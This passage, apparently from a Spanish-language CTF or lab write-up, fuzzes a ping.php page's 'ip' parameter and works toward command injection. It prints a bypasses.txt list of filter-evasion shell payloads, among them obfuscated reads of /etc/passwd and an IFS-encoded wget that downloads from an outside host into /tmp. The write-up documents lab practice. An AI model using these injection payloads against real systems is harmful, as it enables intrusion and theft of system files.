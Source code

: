 ```
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response size: 34
________________________________________________

ip                      [Status: 200, Size: 11, Words: 1, Lines: 1, Duration: 9ms]
:: Progress: [20469/20469] :: Job [1/1] :: 74 req/sec :: Duration: [0:00:03] :: Errors: 0 ::
```

Vemos que funciona con el parametro `ip`, por lo que vamos a probar lo siguiente:

```
URL = http://<IP>/ping.php?ip=<IP_ATTACKER>
```

Info:

```
PING 192.168.1.146 (192.168.1.146) 56(84) bytes of data.
64 bytes from 192.168.1.146: icmp_seq=1 ttl=64 time=0.031 ms
64 bytes from 192.168.1.146: icmp_seq=2 ttl=64 time=0.058 ms
64 bytes from 192.168.1.146: icmp_seq=3 ttl=64 time=0.051 ms
64 bytes from 192.168.1.146: icmp_seq=4 ttl=64 time=0.053 ms

--- 192.168.1.146 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3094ms
rtt min/avg/max/mdev = 0.031/0.048/0.058/0.010 ms
```

Veremos que ha funcionado, como esto se esta realizando por el protocolo `ICMP` vamos a probar a dumpear la informacion que estamos recibiendo con la herramienta `tcpdump`.

Pero no veremos gran cosa, vamos a seguir realizando `fuzzing` para poder intentar realizar un `RCE` poniendo `;` pero si lo hacemos nos pondra `comando no permitido` por lo que vamos a probar a codificarlo en `URL` pero con la herramienta `FFUF`.

> bypasses.txt

```
/usr/bin/p?ng
nma? -p 80 localhost
/usr/bin/who*mi
touch -- -la
ls
/usr/bin/n[c]
'p'i'n'g
"w"h"o"a"m"i
\u\n\a\m\e \-\a
ech''o test
ech""o test
bas''e64
/\b\i\n/////s\h
echo whoami|$0
cat$u /etc$u/passwd$u
p${u}i${u}n${u}g
p$(u)i$(u)n$(u)g
w`u`h`u`o`u`a`u`m`u`i
!-1
mi
whoa
!-1!-2
{cat,lol.txt}
{echo,test}
cat${IFS}/etc/passwd
cat$IFS/etc/passwd
IFS=];b=wget]10.10.14.21:53/lol]-P]/tmp;$b
IFS=];b=cat]/etc/passwd;$b
```